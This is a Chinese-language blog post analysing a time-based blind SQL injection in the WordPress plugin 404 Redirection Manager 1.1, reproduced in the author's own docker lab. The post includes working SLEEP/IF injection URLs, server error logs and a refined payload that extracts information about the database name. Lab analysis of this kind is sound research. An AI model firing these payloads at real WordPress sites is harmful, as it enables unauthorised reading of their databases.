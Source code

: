 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache，数据库：MySQL 5.7.15，WordPress版本：4.3.6。

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<pre><code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code></pre>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句
<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>（这里多了一个<code>'</code>）。

借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>[Sat Dec 24 08:50:37.231873 2016] [:error] [pid 173] [client 10.10.79.136:64753] WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex='' and (redirect_from='/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' or redirect_from='/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' ) \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='S' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82</code></pre>

<pre><code>[Sat Dec 24 08:50:37.233162 2016] [:error] [pid 173] [client 10.10.79.136:64753] WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='S' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82</code></pre>

有了这些，就可以方便我在源码中发现问题所在了，引起注入的代码：

![sqli-code-1](http://o8lgx56x1.bkt.clouddn.com/blog/img/wp-404-plugin-sqlicode-1.png)

$wpdb是WordPress 数据库访问抽象对象，get_row()是WordPress中一个执行数据库查询并返回结果的函数。

拿其中一个问题来说来说，这里的SQL语句是这样的：

<pre><code>select * from $table_name where enabled=1 and cat='link' and blog='" . get_current_blog_id() . "' and regex<>'' and $permalink_regex_options order by LENGTH(regex) desc </code></pre>

<code>get_current_blog_id()</code>是WordPress中检索ID值的函数，注入的问题明显不是从这里引入的，后面还有一个变量<code>$permalink_regex_options</code>，所以继续跟进。

![sqli-code-2](http://o8lgx56x1.bkt.clouddn.com//blog/img/wp-404-plugin-sqlicode-2.png)

顺着<code>$permalink_regex_options</code>找到了<code>$permalink</code>和<code>$permalink_alternative</code> 两个变量，这两个变量的的值指向了两个函数

![sqli-code-3](http://o8lgx56x1.bkt.clouddn.com//blog/img/wp-404-plugin-sqlicode-3.png)
![sqli-code-4](http://o8lgx56x1.bkt.clouddn.com//blog/img/wp-404-plugin-sqlicode-4.png)


综上，可以整理出完整在数据库中执行的语句：

<pre><code>select * from wp_WP_SEO_Redirection where enabled=1 
and cat='link' and blog='1' and regex<>'' 
and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex or '/?p=1') 
AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc</code></pre>

可以发现，这里<code>sleep</code>执行了两次，所以执行的时间应该在10秒以上。从数据库上跑一下，成功了，时间也没问题。
![pic](www.baidu.com)

再精简一下注入语句<code>') AND (SELECT * FROM (SELECT(IF(LENGTH(database())>32,SLEEP(5),0)))abc) AND ('SQL'='SQL</code>


